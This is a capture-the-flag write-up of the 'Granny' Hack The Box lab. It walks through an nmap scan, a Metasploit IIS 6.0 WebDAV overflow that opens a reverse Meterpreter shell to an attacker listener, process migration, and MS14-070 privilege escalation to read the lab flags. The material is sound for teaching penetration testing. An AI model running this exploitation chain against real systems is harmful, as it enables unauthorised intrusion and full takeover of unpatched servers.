

---
search:
  exclude: true
---
# Granny Writeup

## Introduction :

Granny is an easy box windows box that was released back in April 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Granny] → nmap -sC -sV 10.10.10.15
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-11 17:45 CET
      Nmap scan report for 10.10.10.15
      Host is up (0.036s latency).
      Not shown: 999 filtered ports
      PORT   STATE SERVICE VERSION
      80/tcp open  http    Microsoft IIS httpd 6.0
      | http-methods:
      |_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
      |_http-server-header: Microsoft-IIS/6.0
      |_http-title: Under Construction
      | http-webdav-scan:
      |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
      |   Server Type: Microsoft-IIS/6.0
      |   Server Date: Mon, 11 Nov 2019 16:48:07 GMT
      |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
      |_  WebDAV type: Unknown
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 12.76 seconds
    

## **Part 2 : Getting User Access**

As you can see we're dealing with IIS 6.0 which is an outdated version, with a ton of scripts for us to use, so let's fire up msfconsole : 
    
    
      msfconsole
    
                                        ___          ____
                                    ,-""   `.      < HONK >
                                  ,'  _   e )`-._ /  ----
                                 /  ,' `-._<.===-'
                                /  /
                               /  ;
                   _          /   ;
      (`._    _.-"" ""--..__,'    |
      <_  `-""                     \
       <`-                          :
        (__   <__.                  ;
          `-.   '-.__.      _.'    /
             \      `-.__,-'    _,'
              `._    ,    /__,-'
                 ""._\__,'< <____
                      | |  `----.`.
                      | |        \ `.
                      ; |___      \-``
                      \   --<
                       `.`.<
                         `-'
    
    
    
            =[ metasploit v5.0.74-dev                          ]
      + -- --=[ 1969 exploits - 1088 auxiliary - 338 post       ]
      + -- --=[ 558 payloads - 45 encoders - 10 nops            ]
      + -- --=[ 7 evasion                                       ]
    
      msf5 > update
      [*] exec: update
    
      [*] You have the latest version of Pwntools (4.0.1)
      msf5 > search scstorage
    
      Matching Modules
      ================
    
        #  Name                                                 Disclosure Date  Rank    Check  Description
        -  ----                                                 ---------------  ----    -----  -----------
        0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual  Yes     Microsoft IIS WebDav ScStoragePathFromUrl Overflow
    
    
      msf5 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
      msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.15
      RHOSTS => 10.10.10.15
      msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit
    
      [*] Started reverse TCP handler on 10.10.14.10:4444
      [*] Sending stage (180291 bytes) to 10.10.10.15
      [*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.15:1036) at 2020-02-19 08:38:49 +0000
      [*] Sending stage (180291 bytes) to 10.10.10.15
      [*] Meterpreter session 2 opened (10.10.14.10:4444 -> 10.10.10.15:1037) at 2020-02-19 08:38:51 +0000
      [-] Exploit aborted due to failure: bad-config: Server did not respond correctly to WebDAV request
      [*] Exploit completed, but no session was created.
      msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit
    
      [*] Started reverse TCP handler on 10.10.14.10:4444
      [*] Trying path length 3 to 60 ...
      [*] Sending stage (180291 bytes) to 10.10.10.15
      [*] Meterpreter session 3 opened (10.10.14.10:4444 -> 10.10.10.15:1038) at 2020-02-19 08:39:22 +0000
    
      meterpreter > ps
    
      Process List
      ============
    
      PID   PPID  Name               Arch  Session  User                          Path
      ---   ----  ----               ----  -------  ----                          ----
      0     0     [System Process]
      4     0     System
      208   348   logon.scr
      272   4     smss.exe
      324   272   csrss.exe
      348   272   winlogon.exe
      396   348   services.exe
      408   348   lsass.exe
      604   396   svchost.exe
      676   396   svchost.exe
      732   396   svchost.exe
      776   396   svchost.exe
      796   396   svchost.exe
      932   396   spoolsv.exe
      960   396   msdtc.exe
      1080  396   cisvc.exe
      1128  396   svchost.exe
      1176  396   inetinfo.exe
      1212  396   svchost.exe
      1328  396   VGAuthService.exe
      1408  396   vmtoolsd.exe
      1456  396   svchost.exe
      1504  3620  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
      1596  396   svchost.exe
      1696  396   alg.exe
      1824  604   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
      1908  396   dllhost.exe
      2060  3620  svchost.exe        x86   0                                      C:\WINDOWS\Temp\radA77E9.tmp\svchost.exe
      2304  604   wmiprvse.exe
      2380  3620  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad64DF6.tmp\svchost.exe
      2928  3620  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad3C906.tmp\svchost.exe
      3396  1080  cidaemon.exe
      3440  1080  cidaemon.exe
      3480  1080  cidaemon.exe
      3620  1456  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
      3692  604   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
    

and we get a reverse shell ! but we need to migrate to another process in order to escalate privileges : the process number 1824 looks interesting : 
    
    
    
     meterpreter > migrate 1824
     [*] Migrating from 1504 to 1824...
     [*] Migration completed successfully.
    
     meterpreter > shell
     Process 2080 created.
     Channel 3 created.
     Microsoft Windows [Version 5.2.3790]
     (C) Copyright 1985-2003 Microsoft Corp.
    
     C:\WINDOWS\system32>cd ../..
     ccd ../..
    
     C:\>d Documents And Settings
     cd Documents And Settings
    
     C:\Documents and Settings>cd Administrator
     cd Administrator
     Access is denied.
    

And as you can see, we still migrated to NT Authority, but we did not escalate our privileges enough. 

## **Part 3 : Getting Root Access**
    
    
     C:\Documents and Settings>exit
     meterpreter > background
     [*] Backgrounding session 3...
     msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search ms14_070
    
     Matching Modules
     ================
    
        #  Name                                        Disclosure Date  Rank     Check  Description
        -  ----                                        ---------------  ----     -----  -----------
        0  exploit/windows/local/ms14_070_tcpip_ioctl  2014-11-11       average  Yes    MS14-070 Windows tcpip!SetAddrOptions NULL Pointer Dereference
    
    
     msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use exploit/windows/local/ms14_070_tcpip_ioctl
     msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set SESSION 3
     SESSION => 3
     msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set payload windows/meterpreter/reverse_tcp
     payload => windows/meterpreter/reverse_tcp
     msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > show options
    
     Module options (exploit/windows/local/ms14_070_tcpip_ioctl):
    
        Name     Current Setting  Required  Description
        ----     ---------------  --------  -----------
        SESSION  3                yes       The session to run this module on.
    
    
     Payload options (windows/meterpreter/reverse_tcp):
    
        Name      Current Setting  Required  Description
        ----      ---------------  --------  -----------
        EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
        LHOST                      yes       The listen address (an interface may be specified)
        LPORT     4444             yes       The listen port
    
    
     Exploit target:
    
        Id  Name
        --  ----
        0   Windows Server 2003 SP2
    
    
     msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set LHOST 10.10.14.10
     LHOST => 10.10.14.10
     msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run
    

We'll use a local exploit on our backgrounded session, to see if we can escalate privileges.
    
    
     [*] Started reverse TCP handler on 10.10.14.10:4444
     [*] Storing the shellcode in memory...
     [*] Triggering the vulnerability...
     [*] Checking privileges after exploitation...
     [+] Exploitation successful!
     [*] Sending stage (180291 bytes) to 10.10.10.15
     [*] Meterpreter session 4 opened (10.10.14.10:4444 -> 10.10.10.15:1039) at 2020-02-19 08:44:38 +0000
    
     meterpreter > shell
     [-] Unknown command: shell.
     meterpreter > shell
     Process 3108 created.
     Channel 1 created.
     Microsoft Windows [Version 5.2.3790]
     (C) Copyright 1985-2003 Microsoft Corp.
    
     C:\WINDOWS\system32>meterpreter >
     meterpreter > shell
     Process 3140 created.
     Channel 2 created.
     Microsoft Windows [Version 5.2.3790]
     (C) Copyright 1985-2003 Microsoft Corp.
    
     C:\WINDOWS\system32>cd c:\
     cd c:\
    
     C:\>dir
     dir
      Volume in drive C has no label.
      Volume Serial Number is 246C-D7FE
    
      Directory of C:\
    
     04/12/2017  04:27 PM    <****DIR>          ADFS
     04/12/2017  04:04 PM                 0 AUTOEXEC.BAT
     04/12/2017  04:04 PM                 0 CONFIG.SYS
     04/12/2017  09:19 PM <****DIR>          Documents and Settings
     04/12/2017  04:17 PM <****DIR>          FPSE_search
     04/12/2017  04:17 PM <****DIR>          Inetpub
     12/24/2017  07:21 PM <****DIR>          Program Files
     12/24/2017  07:30 PM <****DIR>          WINDOWS
     04/12/2017  04:05 PM <****DIR>          wmpub
                    2 File(s)              0 bytes
                    7 Dir(s)  18,090,029,056 bytes free
    
     C:\>cd Documents and Settings
     cdcd Documents and Settings
    
     C:\Documents and Settingcd Administrator
     cd Administrator
    
     C:\Documents and Settings\Administrator>dir
     dir
      Volume in drive C has no label.
      Volume Serial Number is 246C-D7FE
    
      Directory of C:\Documents and Settings\Administrator
    
     04/12/2017  08:48 PM <****DIR>          .
     04/12/2017  08:48 PM <****DIR>          ..
     04/12/2017  04:28 PM <****DIR>          Desktop
     04/12/2017  04:12 PM <****DIR>          Favorites
     04/12/2017  04:12 PM <****DIR>          My Documents
     04/12/2017  03:42 PM <****DIR>          Start Menu
     04/12/2017  03:44 PM                 0 Sti_Trace.log
                    1 File(s)              0 bytes
                    6 Dir(s)  18,090,029,056 bytes free
    
     C:\Documents and Settings\Administrator>cd Desktop
     cd Desktop
    
     C:\Documents and Settings\Administrator\Desktop>dir
     dir
      Volume in drive C has no label.
      Volume Serial Number is 246C-D7FE
    
      Directory of C:\Documents and Settings\Administrator\Desktop
    
     04/12/2017  04:28 PM <****DIR>          .
     04/12/2017  04:28 PM <****DIR>          ..
     04/12/2017  09:17 PM                32 root.txt
                    1 File(s)             32 bytes
                    2 Dir(s)  18,090,029,056 bytes free
    
     C:\Documents and Settings\Administrator\Desktop>type root.txt
     type root.txt
     aaXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
     C:\WINDOWS\system32>cd C:\Documents and Settings\Lakis\Desktop
     cd C:\Documents and Settings\Lakis\Desktop
    
     C:\Documents and Settings\Lakis\Desktop>type user.txt
     type user.txt
    
     70XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And that's it ! we have been able to root the box, getting both the user and the root flag in one go. :) 

## **Conclusion**

Here we can see the progress graph :

